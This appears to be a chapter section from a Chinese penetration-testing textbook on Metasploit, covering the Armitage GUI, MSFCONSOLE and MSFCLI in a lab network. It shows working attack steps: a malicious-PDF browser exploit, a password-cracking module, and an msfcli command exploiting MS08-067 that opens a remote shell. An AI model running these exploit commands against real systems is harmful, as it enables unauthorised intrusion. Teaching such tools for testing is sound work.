


6.2 Metasploit基础
Metasploit是一款开源的安全漏洞检测工具。它可以帮助用户识别安全问题，验证漏洞的缓解措施，并对某些软件进行安全性评估，提供真正的安全风险情报。当用户第一次接触Metasploit渗透测试框架软件（MSF）时，可能会被它提供如此多的接口、选项、变量和模块所震撼，而感觉无所适从。Metasploit软件为它的基础功能提供了多个用户接口，包括终端、命令行和图形化界面等。本节将介绍Metasploit下各种接口的使用方法。
6.2.1 Metasploit的图形管理工具Armitage
Armitage组件是Metasploit框架中一个完全交互式的图形化用户接口，由Raphael Mudge所开发。Armitage工具包含Metasploit控制台，通过使用其标签特性，用户可以看到多个Metasploit控制台或多个Meterpreter会话。
使用Armitage工具。具体操作步骤如下所示。
（1）启动Metasploit服务。在使用Armitage工具前，必须将Metasploit服务启动。否则，无法运行Armitage工具。因为Armitage需要连接到Metasploit服务，才可以启动。在Kali桌面依次选择“应用程序”|Kali Linux|“系统服务”|Metasploit|community/pro start命令启动Metasploit服务，将输出如下所示的信息：
[ ok ] Starting PostgreSQL 9.1 database server: main.
Configuring Metasploit…
Creating metasploit database user 'msf3'…
Creating metasploit database 'msf3'…
insserv: warning: current start runlevel(s) (empty) of script `metasploit' overrides LSB defaults (2 3 4 5).
insserv: warning: current stop runlevel(s) (0 1 2 3 4 5 6) of script `metasploit' overrides LSB defaults (0 1 6).
从输出的信息中可以看到PostgreSQL 9.1数据库服务已启动，并创建了数据库用户和数据库。
（2）启动Armitage工具。在Kali桌面依次选择“应用程序”|Kali Linux|“漏洞利用工具集”|“网络漏洞利用”|armitage命令，如图6.3所示。或者在终端运行armitage命令启动Armitage工具，如下所示：
root@kali:~# armitage

图6.3 启动armitage界面
（3）启动armitage工具后，将显示如图6.4所示的界面。
图6.4 连接Metasploit界面
（4）在该界面显示了连接Metasploit服务的基本信息。在该界面单击Connect按钮，将显示如图6.5所示的界面。
图6.5 启动Metasploit
（5）该界面提示是否要启动Metasploit的RPC服务。单击“是(Y)”按钮，将显示如图6.6所示的界面。
图6.6 连接Metasploit界面
（6）该界面显示了连接Metasploit的一个进度。当成功连接到Metasploit服务的话，将显示如图6.7所示的界面。
图6.7 Armitage初始界面
（7）该界面共有三个部分，这里把它们分别标记为A、B和C。下面分别介绍这三部分。
- A：这部分显示的是预配置模块。用户可以在模块列表中使用空格键搜索提供的模块。
- B：这部分显示活跃的目标系统，用户能执行利用漏洞攻击。
- C：这部分显示多个Metasploit标签。这样，就可以运行多个Meterpreter命令或控制台会话，并且同时显示。
【实例6-1】演示使用Armitage工具做渗透测试。具体操作步骤如下所示。
（1）启动Armitage工具，界面如图6.7所示。从该界面可以看到默认没有扫描到任何主机。这里通过扫描，找到本网络中的所有主机。
（2）在Armitage工具的菜单栏中依次选择Hosts|Nmap Scan|Quick Scan命令，将显示如图6.8所示的界面。
图6.8 输入扫描范围
（3）在该界面输入要扫描的网络范围，这里输入的网络范围是192.168.41.0/24。然后单击“确定”按钮，将开始扫描。扫描完成后，将显示如图6.9所示的界面。
图6.9 扫描结果
（4）从该界面可以看到，弹出了一个扫描完成对话框，此时单击“确定”按钮即可。并且在目标系统的窗口中，显示了三台主机。这三台主机就是扫描到的主机。从扫描完成的对话框中可以看到提示建议选择Attacks|Find Attacks命令，将可以渗透攻击目标系统。
（5）在菜单栏中依次选择Attacks|Find Attacks命令，运行完后将显示如图6.10所示的界面。
图6.10 消息
（6）从该界面可以看到攻击分析完成，并且右击扫描到的主机将会看到有一个Attack菜单，如图6.11所示。
图6.11 Attack菜单
（7）从该界面可以看到在目标主机的菜单中出现了Attack选项，在该菜单中共有五个选项。在没有运行Find Attacks命令前，只要Services、Scan和Host三个选项。这里扫描到的主机屏幕都是黑色，这是因为还没有识别出操作系统的类型。此时可以在菜单栏中依次选择Hosts|Nmap Scan|Quick Scan（OS detect）命令，扫描操作系统类型。扫描完成后，将显示操作系统的默认图标。
（8）扫描操作系统。扫描完成后，将显示如图6.12所示的界面。
图6.12 扫描的操作系统
（9）从该界面可以看到扫描到的目标主机，屏幕发生了变化。此时就可以选择目标，进行渗透攻击。
（10）此时，可以在预配置模块窗口选择模块渗透攻击目标系统，如选择渗透攻击浏览器模块。在预配置模块中依次选择exploit|windows|browser|adobe_cooltype_sing模块，双击adobe_cooltype_sing模块，将显示如图6.13所示的界面。
图6.13 模块配置选项
（11）该界面显示了adobe_cooltype_sing模块的默认配置选项信息。这些选项的默认值，可以通过双击默认值修改。设置完成后，单击Launch按钮，在Armitage窗口将显示如图6.14所示的界面。
图6.14 渗透攻击结果
（12）从该界面可以看到，使用adobe_cooltype_sing模块渗透攻击的过程。从最后的信息中可以看到，渗透攻击成功运行。以后某台主机访问http://192.168.41.235:8080/JEdB2oma7AEGV7G链接时，将会在目标主机上创建一个名为JEdB2oma7AEGV7G的PDF文件。只要有目标主机访问该链接，Armitage控制台会话中将会显示访问的主机，如图6.15所示。

图6.15 攻击信息
（13）从该界面可以看到主机192.168.41.146，访问了http://192.168.41.235:8080/JEdB2oma7AEGV7G链接。并且，可以看到在主机192.168.41.146上创建了PDF文件。
6.2.2 控制Metasploit终端（MSFCONSOLE）
MSF终端（MSFCONSOLE）是目前Metasploit框架最为流行的用户接口，而且也是非常灵活的。因为MSF终端是Metasploit框架中最灵活、功能最丰富及支持最好的工具之一。MSFCONSOLE主要用于管理Metasploit数据库，管理会话、配置并启动Metasploit模块。本质上来说，就是为了利用漏洞，MSFCONSOLE将获取用户连接到主机的信息，以至于用户能启动渗透攻击目标系统。本小节将介绍Metasploit终端（MSFCONSOLE）。
当使用Metasploit控制台时，用户将使用一些通用的命令，如下所示。
- help：该命令允许用户查看执行命令的帮助信息。
- use module：该命令允许用户加载选择的模块。
- set optionname module：该命令允许用户为模块设置不同的选项。
- run：该命令用来启动一个非渗透攻击模块。
- search module：该命令允许用户搜索一个特定的模块。
- exit：该命令允许用户退出MSFCONSOLE。
MSFCONSOLE漏洞利用的具体操作步骤如下所示。
（1）在终端启动MSFCONSOLE，执行命令如下所示：
root@kali:~# msfconsole
执行以上命令后，输出信息如下所示：
输出的信息出现msf>提示符，表示登录MSFCONSOLE成功。此时就可以在该命令行运行其他任何命令。
（2）使用search命令搜索所有有效的Linux模块。对于模块用户每次想要执行一个动作，这是一个很好的主意。主要原因是Metasploit各种版本之间，模块的路径可能有改变。执行命令如下所示：
msf> search linux
执行以上命令后，输出信息如下所示：
输出的信息就是Metasploit中所有有效的模块。输出的信息显示为4列，分别表示模块名称、公开时间、等级及描述。以上输出的内容较多，但是由于篇幅的原因，这里只列出了一少部分内容，省略的内容使用省略号（……）代替。
（3）使用John Ripper linux密码破解模块。执行命令如下所示：
msf > use auxiliary/analyze/jtr_linux
msf auxiliary(jtr_linux) >
输出的信息表示已加载jtr_linux模块。
（4）查看模块的有效选项。执行命令如下所示：

从输出结果中可以看到jtr_linux模块有5个有效的选项，如Crypt、JOHN_BASE、JOHE_PATH、Munge和Wordlist。在输出的信息中，对这5个选项分别有详细的描述。
（5）现在用户有一个选项的列表，这些选项为运行jtr_linux模块。用户能设置独特的选项，使用set命令。设置JOHN_PATH选项，如下所示：
msf auxiliary(jtr_linux) > set JOHN_PATH /usr/share/metasploit- framework/data/john/ wordlists/password.lst
JOHN_PATH => /usr/share/metasploit-framework/data/john/wordlists/ password.lst
（6）现在运行渗透攻击，执行命令如下所示：
msf auxiliary(jtr_linux) > exploit
6.2.3 控制Metasploit命令行接口（MSFCLI）
本小节将介绍Metasploit命令行接口（MSFCLI）。为了完成Metasploit的攻击任务，需要使用一个接口。MSFCLI刚好实现这个功能。为了学习Metasploit或测试/写一个新的渗透攻击，MSFCLI是一个很好的接口。
MSF命令行和MSF终端为Metasploit框架访问提供了两种截然不同的途径，MSF终端以一种用户友好的模式来提供交互方式，用于访问软件所有的功能特性，而MSFCLI则主要考虑脚本处理和与其他命令行工具的互操作性。MSFCLI常用的命令如下所示。
- msfcli：加载所有有效渗透攻击MSFCLI的列表。
- msfcli -h：查看MSFCLI帮助文档。
- msfcli [PATH TO EXPLOIT] [options = value]：启动渗透攻击的语法。
MSF命令行MSFCLI的使用如下所示。
（1）启动MSF命令行（MSFCLI）。启动的过程需要一点时间，请耐心等待，这取决于用户系统的速度。还要注意，随着MSFCLI负载，可利用的有效列表将显示出来。执行命令如下所示：
root@kali:~# msfcli
[*] Please wait while we load the module tree…
（2）查看MSFCLI帮助文档。执行命令如下所示：
以上输出的信息显示了msfcli命令的帮助文档。通过查看这些帮助文档，可以了解一个模块的使用说明和使用模式列表。
（3）为了证明前面所说的帮助文档信息。这里将选择A选项，显示模块的高级选项。执行命令如下所示：
以上信息显示了xmas模块的高级选项。输出信息中对每个选项都有3部分介绍，包括名称、当前设置及描述信息。
（4）此外，用户可以使用S模式列出当前模块的一个摘要信息。这个摘要模式是查看所有有效选项的一个很好的方法。大部分选项是可选的。但是为了使用户设置目标系统或端口，通常有些选项是必须的。启动摘要模式渗透攻击，执行命令如下所示：

以上信息为xmas模块的摘要信息。这些信息包括xmas模块的名称、位置、许可证、级别、提供商、基本选项及描述等。
（5）为显示渗透攻击有效的选项列表，可以使用O模式。该模式是用来配置渗透攻击模块的，每个渗透攻击模块有一套不同的设置选项，也可能没有。所有必须的选项必须是渗透攻击允许执行之前设置。从下面的输出信息中，可以看到许多必须的选项默认已设置。如果是这样，就不需要更新这些选项值了，除非用户想要修改它。执行命令如下所示：
输出的信息显示了xmas模块需要的配置选项，如BATCHSIZE、PORTS、RHOSTS、SNAPLEN、THREADS和TIMEOUT。
（6）用户可以使用E模式运行渗透攻击测试。执行命令如下所示：
root@kali:/usr/bin# msfcli auxiliary/scanner/portscan/xmas E
【实例6-2】使用MSFCLI演示渗透攻击，这里以ms08_067_netapi模块为例。具体操作步骤如下所示。
（1）查看ms08_067_netapi模块的配置参数选项。执行命令如下所示：
从输出的信息中可以看到该模块有三个配置选项，分别是RHOST、RPORT和SMBPIPE。
（2）查看ms08_067_netapi模块中可用的攻击载荷。执行命令如下所示：
输出的信息显示了ms08_067_netapi模块可用的攻击载荷。该模块可以攻击的载荷很多，由于章节的原因，中间部分使用省略号（……）取代了。
（3）这里选择使用shell_bind/tcp攻击载荷进行渗透测试。如下所示：
root@kali:~# msfcli windows/smb/ms08_067_netapi RHOST=192.168.41.146 PAYLOAD= windows/shell/bind_tcp E
[*] Initializing modules…
RHOST => 192.168.41.146
PAYLOAD => windows/shell/bind_tcp
[*] Started bind handler
[*] Automatically detecting the target…
[*] Fingerprint: Windows XP - Service Pack 0 / 1 - lang:Chinese - Traditional
[*] Selected Target: Windows XP SP0/SP1 Universal
[*] Attempting to trigger the vulnerability…
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.41.146
[*] Command shell session 1 opened (192.168.41.156:60335 -> 192.168.41.146:4444) at 2014-06-06 10:12:06 +0800
Microsoft Windows XP [版本 5.1.2600]
(C) 版权所有 1985-2001 Microsoft Corp.
C:\WINDOWS\system32>
从输出的信息中，可以看到成功的从远程系统上拿到了一个Windows命令行的Shell。这表示渗透攻击成功。